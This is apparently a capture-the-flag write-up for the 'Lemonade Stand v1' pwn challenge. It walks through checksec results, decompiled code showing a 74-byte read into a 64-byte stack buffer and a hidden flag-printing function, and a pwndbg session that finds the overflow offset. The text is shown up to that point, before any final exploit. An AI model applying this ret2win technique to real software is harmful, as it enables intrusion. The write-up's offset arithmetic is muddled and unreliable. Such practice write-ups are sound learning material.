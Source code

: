 # Lemonade Stand v1 

This challenge is an basic ret2win attack.

## Basic file checks

We see that the RELRO is full enabled so can't write anything in the GOT table to perform a "GOT overwrite" attack. \
The NX is also enabled, so that means we can't stored input or data cannot be executed as code to perform a shellcode attack.
![Alt Text](img/checksec.png)

## View the Source Code and find the vulnerability

We used Ghidra to disassemble the binary.\
The first thing that we want to do is to go to Functions section and select the main() to see\
what the binary is actually doing and what funtions are called.
```c
void main(void)

{
  long lVar1;
  
  setup();
  puts("\x1b[1;33m");
  cls();
  do {
    while( true ) {
      while (lVar1 = menu(), lVar1 == 1) {
        buy_normal();
      }
      if (lVar1 == 2) break;
      error("We don\'t sell grapes!");
    }
    buy_large();
  } while( true );
}
```


We saw that the main is calling two funcrions buy_normal()" and buy_large().\
We navigate to them and we saw that both of them they calling a save_creds() func.
```c
void buy_large(void)

{
  if (COINS < 6) {
    error("You don\'t have enough coins!");
    save_creds();
  }
  else {
    printf("\n%s[+] Enjoy your large lemonade!\n%s",&DAT_0040101e,&DAT_00400c88);
    COINS = COINS - 5;
  }
  return;
}
```

This is where the interesting thing starts. \
We see that we have a buffer overflow in the local_48 variable cause the size of it is 64 bytes and read can take 74 bytes

```assembly 
        00400ac7 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
```

```c

void save_creds(void)

{
  long lVar1;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  buffer = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  puts(
      "\n\nI can give you a free lemonade but I need your information for next time so you can pay m e back!\n"
      );
  printf("1. Yes\n2. No thanks\n\n>> ");
  lVar1 = read_num();
  if (lVar1 == 1) {
    printf("\nPlease tell me your name: ");
    read(0,&local_28,30);
    printf("\nPlease tell me your surname: ");
    read(0,&local_48,74);
    puts("Thanks a lot! Here is your lemonade!\n");
  }
  return;
}
```
We also found a function that is never been called and it will print the flag if somehow we achieve it.
That's our goal.

```c

void grapes(void)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

## Exploit

First we want to find the offset.\
We will use pwndbg for this, to create a pattern known as De Bruijn Sequences to fill the padding for the buffer.
The pwntools calculate the entire 8 digits and found the offset to be 64, but we only care for the first 4 bytes so it will be 64 + 4*2 = 72 bytes

```shell
>> 1                                                                                         
                                                                                             
Please tell me your name: leo                                                                
                                                                                             
Please tell me your surname: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                         
Thanks a lot! Here is your lemonade!                                                         
                                                                                             
                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                         
0x000000000040616a in ?? ()                                                                  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
*RAX  0x26
 RBX  0x0
*RCX  0x7ffff7910104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7ffff7bed8c0 ◂— 0x0
*RDI  0x1
*RSI  0x7ffff7bec7e3 (_IO_2_1_stdout_+131) ◂— 0xbed8c0000000000a /* '\n' */
*R8   0x25
*R9   0x7ffff796eb90 ◂— mov r10, qword ptr [rsi - 0x1e]
*R10  0x20657361656c500a ('\nPlease ')
*R11  0x246
*R12  0x400780 (_start) ◂— xor ebp, ebp
*R13  0x7fffffffde50 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
*RIP  0x40616a
────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────
Invalid address 0x40616a










──────────────────────────────────────────[ STACK ]──────────────────────────────────────────
00:0000│ rsp 0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
01:0008│     0x7fffffffdd68 —▸ 0x400bee (main+72) ◂— jmp 0x400bfd
02:0010│     0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
03:0018│     0x7fffffffdd78 —▸ 0x7ffff7821c87 (__libc_start_main+231) ◂— mov edi, eax
04:0020│     0x7fffffffdd80 ◂— 0x2000000000
05:0028│     0x7fffffffdd88 —▸ 0x7fffffffde58 —▸ 0x7fffffffe1c0 ◂— '/home/vein/htb/hacktheboo_practise/pwn_lemonade_stand_v1/lemonade_stand_v1'
06:0030│     0x7fffffffdd90 ◂— 0x100000000
07:0038│     0x7fffffffdd98 —▸ 0x400ba6 (main) ◂— push rbp
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► 0         0x40616a
   1   0x7fffffffdd70
   2         0x400bee main+72
─────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> aaaaaakaaaaaaalaaaaaaamaaa
Undefined command: "aaaaaakaaaaaaalaaaaaaamaaa".  Try "help".
pwndbg> cyclic -l iaaaaaaa
Finding cyclic pattern of 8 bytes: b'iaaaaaaa' (hex: 0x6961616161616161)
Found at offset 64
```



